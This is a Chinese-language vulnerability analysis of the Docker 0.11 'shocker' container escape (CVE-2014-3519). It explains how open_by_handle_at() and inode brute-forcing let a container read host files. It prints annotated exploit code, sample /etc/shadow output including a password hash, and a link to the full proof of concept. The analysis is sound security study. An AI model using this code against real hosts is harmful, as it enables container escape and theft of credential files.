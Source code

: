 ##Docker 0.11 - VMM-Container Breakout

##漏洞类型：
容器逃逸  本地安全限制绕过

##组件介绍：
docker是一个开源的容器引擎，它对LXC进一步的封装，达到操作系统层面上的虚拟化

##漏洞分析：
docker0.11之前版本的open_by_handle_at()函数允许进程访问file_handle结构的已加载文件系统上的文件，该结构暴力试验inode数字区分文件，本地攻击者可利用此漏洞绕过某些安全限制并执行未授权操作。

##具体分析：
docker0.11之前的版本采用黑名单的形式来限制容器的能力，此次能够逃逸的原因是没有禁止open_by_handle_at()函数的CAP_DAC_READ_SEARCH能力。有关CAP_DAC_READ_SEARCH请查阅[capabilities的文档](http://man7.org/linux/man-pages/man7/capabilities.7.html)  
关于CAP_DAC_READ_SEARCH的描述如下：

    * Bypass file read permission checks and directory read and
      execute permission checks;
    * Invoke open_by_handle_at(2).

如上可知open_by_handle_at函数可以读取任意文件和文件夹

[open_by_handle_at](http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html)的定义如下：

    int open_by_handle_at(int mount_fd, struct file_handle *handle,int flags);

- mount_fd 指向某一个文件系统中的文件或者目录的文件描述符
- file_handle 描述一个文件或者目录
[file_handle结构](http://lxr.free-electrons.com/source/include/linux/fs.h#L877)如下:  
<code>    
  struct file_handle {
      unsigned int  handle_bytes;   /* Size of f_handle [in, out] */
      int           handle_type;    /* Handle type [out] */
       unsigned char f_handle[0];    /* File identifier (sized by
                                                caller) [out] */
    };

</code>           
- flags   The flags argument is as for open(2).

file_handle结构中f_handle[0]为8位inode号，在大多数的文件系统中，根目录的inode号为2，这样，攻击者可以通过打开根目录比较目录名和文件，遍历inode号达到查看任意文件的目的

##具体过程：
以查看/etc/shadow为例
第一步设置根目录的文件信息

    struct my_file_handle root_h = {
            .handle_bytes = 8,
            .handle_type = 1,
            .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
            //根目录的inode号为2
        };
第二步打开随意文件，获得文件描述符

    //打开宿主机器上的随意文件 获得文件描述符
    if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
        die("[-] open");
第三步利用文件描述符 根目录的信息 得到/etc/shadow的文件信息

    if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
这个过程是一个迭代的过程，涉及到：
查找目录：

        //打开文件
        if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
            die("[-] open_by_handle_at");
        //打开目录
        if ((dir = fdopendir(fd)) == NULL)
            die("[-] fdopendir");
        for (;;) {
            //读取目录项
            de = readdir(dir);
            if (!de)
                break;
            fprintf(stderr, "[*] Found %s\n", de->d_name);
            //判断目录名
            if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
                fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
                ino = de->d_ino;
                break;
            }
        }
这个过程找到/etc目录，得到/etc的inode号

暴力试验inode数字，找到文件：

        if (de) {
            //暴力破解inode号
            for (uint32_t i = 0; i < 0xffffffff; ++i) {
                outh.handle_bytes = 8;
                outh.handle_type = 1;
                memcpy(outh.f_handle, &ino, sizeof(ino));//得到的/etc的inode号
                memcpy(outh.f_handle + 4, &i, sizeof(i)); //只暴力破解后4位
                if ((i % (1<<20)) == 0)
                    fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
                if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                    closedir(dir);
                    close(fd);
                    dump_handle(&outh);
                    return find_handle(bfd, path, &outh, oh);
                }
            }
        }

第四步 读取文件信息

        //根据文件信息 打开文件
        if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
            die("[-] open_by_handle");
        memset(buf, 0, sizeof(buf));
        if (read(fd2, buf, sizeof(buf) - 1) < 0)
            die("[-] read");

最终达到读取宿主机器任意文件信息的效果
读取的/etc/shadow文件信息

    root:!:15597:0:99999:7:::
    daemon:*:15597:0:99999:7:::
    bin:*:15597:0:99999:7:::
    sys:*:15597:0:99999:7:::
    sync:*:15597:0:99999:7:::
    games:*:15597:0:99999:7:::
    man:*:15597:0:99999:7:::
    lp:*:15597:0:99999:7:::
    mail:*:15597:0:99999:7:::
    news:*:15597:0:99999:7:::
    uucp:*:15597:0:99999:7:::
    proxy:*:15597:0:99999:7:::
    www-data:*:15597:0:99999:7:::
    backup:*:15597:0:99999:7:::
    list:*:15597:0:99999:7:::
    irc:*:15597:0:99999:7:::
    gnats:*:15597:0:99999:7:::
    nobody:*:15597:0:99999:7:::
    libuuid:!:15597:0:99999:7:::
    syslog:*:15597:0:99999:7:::
    messagebus:*:15597:0:99999:7:::
    ntp:*:15597:0:99999:7:::
    sshd:*:15597:0:99999:7:::
    vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
    vboxadd:!:15597::::::
    statd:*:15597:0:99999:7:::


##漏洞验证方式：  
docker version 版本 <=0.11 均存在漏洞  
[poc](http://stealth.openwall.net/xSports/shocker.c) 可验证

##影响版本：
docker版本 <=0.11 均存在漏洞

##相同漏洞：  
- [CVE-2014-3519](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3519)


##参考链接：
- http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html
- http://man7.org/linux/man-pages/man7/capabilities.7.html
- http://stealth.openwall.net/xSports/shocker.c
- https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3#.80qhbidek